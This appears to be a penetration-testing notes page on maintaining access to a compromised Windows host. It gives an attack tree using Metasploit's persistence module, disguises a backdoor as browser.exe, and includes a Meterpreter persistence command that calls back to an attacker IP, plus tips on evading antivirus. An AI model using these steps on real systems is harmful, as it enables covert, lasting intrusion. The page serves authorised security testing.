 # Maintaining access on Windows

## Attack tree

```text
1 Maintain access on Windows
    1.1 In meterpreter background the current basic shell (AND)
    1.2  > use exploit/windows/local/persistence (AND)
    1.3 Set EXE_NAME to something less suspicious (like browser.exe) (AND)
    1.4 Set SESSION to the id of the basic shell just put in the background (AND)
    1.5 > show advanced
    1.6 Inject backdoor as a service with > set EXE::Custom [backdoor location] (/var/www/html/evil-files/backdoor.exe) (AND)
    1.7 > exploit
    1.8 Store the Meterpreter RC_file path for cleanup later
```

## Notes

### Problems

* Using Veil Evasion's `rev_http_service` and `rev_tcp_service` can be used instead of a backdoor, or uploaded from meterpreter. This does not always work.
* Using Meterpreter's persistence module (`> run persistence -U -i 20 -p 80 -r [IP address]`) is detectable by AV.
* A combination of the two solves these problems.

## Cheatsheets

* [Windows post exploitation enumeration](cheatsheets:docs/enumeration/windows-post)
* [Offensive security: Meterpreter Basic Commands](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* [Metasploit documentation](https://docs.metasploit.com/)
